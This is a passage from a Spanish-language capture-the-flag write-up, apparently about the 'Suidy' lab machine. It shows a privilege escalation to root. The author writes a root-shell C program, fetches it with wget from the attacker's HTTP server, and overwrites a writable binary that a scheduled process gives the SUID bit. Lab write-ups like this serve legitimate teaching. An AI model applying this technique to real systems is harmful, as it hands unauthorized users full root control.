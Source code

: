 Tras esperar al minuto 45 podemos comprobar que aparece un proceso "curioso". Cada minuto se ejecuta ese script, que según la pista, nos da a entender que es el que le da permisos SUID. No podemos comprobarlo porque no tenemos permisos. Tampoco podemos ver el código del binario *suidyyyyy*, pero realmente no importa, porque sin embargo, sí que tenemos permisos de escritura sobre el mismo. Por tanto, lo que vamos a hacer es crear uno nuevo y sustituirlo. Con esto perderemos el permiso SUID, pero el proceso que descubrimos le otorgará de nuevo el permiso para que nos dé una shell como root.

El código de C es sencillito, pero yo lo saqué de una búsqueda de Google de <https://github.com/jivoi/pentest/blob/master/shell/rootshell.c>.

Creamos un fichero "shell.c" con ese código:

~~~c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
~~~

Lo compilamos:

~~~bash
❯ gcc -o hazmeroot shell.c
shell.c: In function ‘main’:
shell.c:6:23: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 | setuid(0); setgid(0); system("/bin/bash");
      |   
~~~

Antes de nada, cabe destacar que como *suidy* no tenemos permisos de escritura dentro de nuestro directorio de trabajo, por lo que vamos a cambiar a "theuser" y situarnos en su directorio (en el de suidy tampoco puede escribir):

~~~bash
suidy@suidy:/home/suidy$ exit
exit
theuser@suidy:/home/suidy$ cd
theuser@suidy:~$ pwd
/home/theuser
~~~

Lo subimos a la máquina víctima con el servidor de Python y lo sustituimos:

~~~bash
theuser@suidy:~$ wget 192.168.0.24:8000/hazmeroot
--2022-11-25 20:44:44--  http://192.168.0.24:8000/hazmeroot
Conectando con 192.168.0.24:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 20184 (20K) [application/octet-stream]
Grabando a: “hazmeroot”

hazmeroot              100%[============================>]  19,71K  --.-KB/s    en 0s      

2022-11-25 20:44:44 (187 MB/s) - “hazmeroot” guardado [20184/20184]

theuser@suidy:~$ cp hazmeroot /home/suidy/suidyyyyy
theuser@suidy:~$ ls -l /home/suidy/
total 24
-r--r----- 1 suidy suidy     197 sep 26  2020 note.txt
-rwxrwxr-x 1 root  theuser 20184 nov 25 20:45 suidyyyyy
theuser@suidy:~$ ls -l /home/suidy/
total 24
-r--r----- 1 suidy suidy     197 sep 26  2020 note.txt
-rwsrwsr-x 1 root  theuser 20184 nov 25 20:45 suidyyyyy

~~~
